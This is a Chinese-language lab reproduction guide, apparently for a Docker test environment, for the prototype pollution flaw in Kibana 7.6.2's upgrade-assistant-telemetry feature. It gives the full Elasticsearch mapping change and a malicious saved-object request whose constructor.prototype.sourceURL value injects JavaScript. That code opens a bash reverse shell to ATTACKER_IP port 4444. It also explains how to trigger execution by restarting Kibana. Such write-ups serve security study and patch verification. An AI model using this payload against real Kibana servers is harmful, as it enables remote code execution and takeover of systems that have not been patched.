

# Kibana 7.6.2 upgrade-assistant-telemetry Prototype Pollution Leads to RCE

Kibana 是 Elasticsearch 的开源数据可视化仪表盘工具。

7.6.3 版本之前的 Kibana 存在 Upgrade Assistant 功能中的原型污染漏洞。通过设置 constructor.prototype.sourceURL 值，可以实现任意代码执行。可以通过直接向 Elasticsearch 发送数据，或通过 Kibana 提交查询来触发漏洞。两种方法均会导致 Kibana 读取被污染的原型。

代码执行可能在 Kibana 重启后或数据收集（时间未知）发生时触发。成功执行后，必须删除 .kibana_1 索引才能使 Kibana 成功重启。一旦收到回调，请求会被清理，允许 Kibana 在下一次尝试中成功重启。

参考:

- https://hackerone.com/reports/852613

## 环境搭建

使用 Docker 启动 Kibana 7.6.2 和 Elasticsearch 7.6.2：

```bash
docker compose up -d
```

环境启动后，Kibana 将监听在 `http://your-ip:5601`。

## 漏洞复现

原型污染漏洞发生在 Upgrade Assistant 的 `upgrade-assistant-telemetry` 功能中。通过提供特制的 `upgrade-assistant-telemetry` 保存对象即可利用该漏洞。

1. 更新 Kibana：映射修改 Kibana 映射以允许自定义的 upgrade-assistant-telemetry 文档。必须提供完整映射，避免 Kibana 因映射验证错误而拒绝启动。

    ```json
    PUT /.kibana_1/_mappings
    {
    "properties": {
        "upgrade-assistant-telemetry": {
        "properties": {
            "constructor": {
            "properties": {
                "prototype": {
                "properties": {
                    "sourceURL": {
                    "type": "text",
                    "fields": {
                        "keyword": {
                        "type": "keyword",
                        "ignore_above": 256
                        }
                    }
                    }
                }
                }
            }
            },
            "features": {
            "properties": {
                "deprecation_logging": {
                "properties": {
                    "enabled": {
                    "type": "boolean",
                    "null_value": true
                    }
                }
                }
            }
            },
            "ui_open": {
            "properties": {
                "cluster": {
                "type": "long",
                "null_value": 0
                },
                "indices": {
                "type": "long",
                "null_value": 0
                },
                "overview": {
                "type": "long",
                "null_value": 0
                }
            }
            },
            "ui_reindex": {
            "properties": {
                "close": {
                "type": "long",
                "null_value": 0
                },
                "open": {
                "type": "long",
                "null_value": 0
                },
                "start": {
                "type": "long",
                "null_value": 0
                },
                "stop": {
                "type": "long",
                "null_value": 0
                }
            }
            }
        }
        }
    }
    }
    ```

2. 插入恶意文档：使用以下请求插入恶意的telemetry状态文档

    ```json
    PUT /.kibana_1/_doc/upgrade-assistant-telemetry:upgrade-assistant-telemetry
    {
        "upgrade-assistant-telemetry" : {
        "ui_open.overview" : 1,
        "ui_open.cluster" : 1,
        "ui_open.indices" : 1,
        "constructor.prototype.sourceURL": "\u2028\u2029\nglobal.process.mainModule.require('child_process').exec('/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1')"
        },
        "type" : "upgrade-assistant-telemetry",
        "updated_at" : "2020-04-17T20:47:40.800Z"
    }
    ```

    

    P.S. 注意: 该 payload 会污染原型，注入用于生成反向 shell 的 JavaScript 代码，代码可自定义，例如`...exec('touch /tmp/rce')`。

3. 触发代码执行：等待数据收集发生，或者手动重启 Kibana ( `docker restart KIBANA_CONTAINER_ID` or `docker compose restart`). Kibana 会尝试启动，执行 payload 触发代码执行。

    
